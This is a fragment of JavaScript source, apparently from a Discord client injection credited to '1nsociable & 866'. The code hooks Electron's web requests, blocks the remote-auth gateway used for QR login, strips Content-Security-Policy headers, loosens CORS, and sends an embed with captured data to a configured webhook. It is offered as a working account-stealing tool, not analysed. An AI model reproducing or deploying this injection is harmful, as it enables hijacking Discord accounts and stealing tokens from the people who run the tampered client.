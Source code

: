         },
        footer: {
          text: '🎉・Discord Injection By 1nsociable & 866・https://discord.gg/stralistrarp',
        },
      },
    ],
  };
  if (config.ping_on_run) content['content'] = config.ping_val + `\n${code}`;
  hooker(content);
};
session.defaultSession.webRequest.onBeforeRequest(config.filter2, (details, callback) => {
  if (details.url.startsWith('wss://remote-auth-gateway')) return callback({ cancel: true });
  updateCheck();
});

session.defaultSession.webRequest.onHeadersReceived((details, callback) => {
  if (details.url.startsWith(config.webhook)) {
    if (details.url.includes('discord.com')) {
      callback({
        responseHeaders: Object.assign(
          {
            'Access-Control-Allow-Headers': '*',
          },
          details.responseHeaders,
        ),
      });
    } else {
      callback({
        responseHeaders: Object.assign(
          {
            'Content-Security-Policy': ["default-src '*'", "Access-Control-Allow-Headers '*'", "Access-Control-Allow-Origin '*'"],
            'Access-Control-Allow-Headers': '*',
            'Access-Control-Allow-Origin': '*',
          },
          details.responseHeaders,
        ),
      });
    }
  } else {
    delete details.responseHeaders['content-security-policy'];
    delete details.responseHeaders['content-security-policy-report-only'];

    callback({
      responseHeaders: {
        ...details.responseHeaders,
        'Access-Control-Allow-Headers': '*',
      },
    });
  }
});
